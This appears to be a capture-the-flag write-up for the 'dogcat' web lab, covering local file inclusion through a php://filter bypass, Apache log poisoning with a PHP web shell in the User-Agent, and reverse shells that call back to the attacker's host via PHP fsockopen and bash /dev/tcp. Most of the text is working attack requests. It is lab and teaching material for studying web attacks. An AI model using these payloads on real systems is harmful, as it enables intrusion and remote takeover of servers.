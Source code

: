 #

## Foothold
Bypass the filter with `PayLoadsAllTheThings`
[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#wrapper-phpfilter](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#wrapper-phpfilter)
We get the `dog.php` and `cat.php`. Tried to get the `index.php`
Payload burp
```burp
GET /?view=php://filter/convert.base64-encode/resource=dog/../index HTTP/1.1

Host: 10.10.80.48

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://10.10.80.48/

Connection: close

Upgrade-Insecure-Requests: 1

Cache-Control: max-age=0

```


```html
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
            $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```
We noticed that the `ext` variable is default `.php`. But we can set it.
Try to get `/etc/passwd`
![etc.passwd](img/etc.passwd.png)

## LFI

i am using `seclist` with `LFI` for `Linux`.
![intruder2](img/intruder2.png)
A lot of files, we filter the errors one.
![intruder3](img/intruder3.png)

Well. we can access the apache2 log.
![apache2 log](img/apache2.log.png)

- Flag1
```burp
GET /?view=dog../../../../../../var/log/apache2/access.log&cmd=cat%20flag.php&ext= HTTP/1.1

Host: 10.10.191.127

User-Agent: <?php system($_GET['cmd']); ?>

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Connection: close

Referer: http://10.10.191.127/

Upgrade-Insecure-Requests: 1
```



php -r '$sock=fsockopen("10.17.7.26",1234);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'

We need to url encode the payload

[https://www.functions-online.com/urlencode.html](https://www.functions-online.com/urlencode.html)

So the Burp request become like this
```Burp
GET /?view=dog../../../../../../var/log/apache2/access.log&ext=&cmd=php+-r+%27%24sock%3Dfsockopen%28%2210.17.7.26%22%2C1234%29%3B%24proc%3Dproc_open%28%22%2Fbin%2Fbash+-i%22%2C+array%280%3D%3E%24sock%2C+1%3D%3E%24sock%2C+2%3D%3E%24sock%29%2C%24pipes%29%3B%27 HTTP/1.1

Host: 10.10.80.48

User-Agent: <?php system($_GET['cmd']); ?>

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://10.10.80.48/

Connection: close

Upgrade-Insecure-Requests: 1

Cache-Control: max-age=0
```
__Note__: You need to excute at lease 2 times so the code take effect (parse).
Return to our reverse terminal, now we have shell.



"bash -i >& /dev/tcp/10.17.7.26/1235 0>&1"
